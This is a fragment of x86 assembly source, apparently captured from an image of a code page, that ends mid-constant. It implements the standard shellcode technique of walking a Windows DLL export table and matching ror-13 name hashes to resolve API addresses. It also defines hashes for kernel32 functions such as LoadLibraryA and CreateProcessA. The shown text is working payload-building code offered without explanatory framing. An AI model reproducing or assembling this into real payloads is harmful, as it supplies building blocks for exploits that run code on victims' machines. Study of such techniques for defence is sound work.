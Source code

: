 ```
    add edx, ebp
    mov ecx, [edx + 0x18]
    mov ebx, [edx + 0x20]
    add ebx, ebp
find_function_loop:
    jecxz find_function_finished
    dec ecx
    mov esi, [ebx + ecx * 4]
    add esi, ebp
    
compute_hash:
    xor edi, edi
    xor eax, eax
    cld
compute_hash_again:
    lodsb
    test al, al
    jz compute_hash_finished
    ror edi, 0xd
    add edi, eax
    jmp compute_hash_again
compute_hash_finished:
find_function_compare:
    cmp edi, [esp + 0x28]
    jnz find_function_loop
    mov ebx, [edx + 0x24]
    add ebx, ebp
    mov cx, [ebx + 2 * ecx]
    mov ebx, [edx + 0x1c]
    add ebx, ebp
    mov eax, [ebx + 4 * ecx]
    add eax, ebp
    mov [esp + 0x1c], eax
find_function_finished:
    popad
    ret
    
;END FUNCTION: find_function
;FUNCTION: resolve_symbols_for_dll
resolve_symbols_for_dll:
    lodsd
    push eax
    push edx
    call find_function
    mov [edi], eax
    add esp, 0x08
    add edi, 0x04
    cmp esi, ecx
    jne resolve_symbols_for_dll
resolve_symbols_for_dll_finished:
    ret
;END FUNCTION: resolve_symbols_for_dll
;DEFINE CONSTANTS
    
locate_kernel32_hashes:
    call locate_kernel32_hashes_return
    ;LoadLibraryA
    db 0x8e
    db 0x4e
    db 0x0e
    db 0xec
    ;CreateProcessA
    db 0x72
```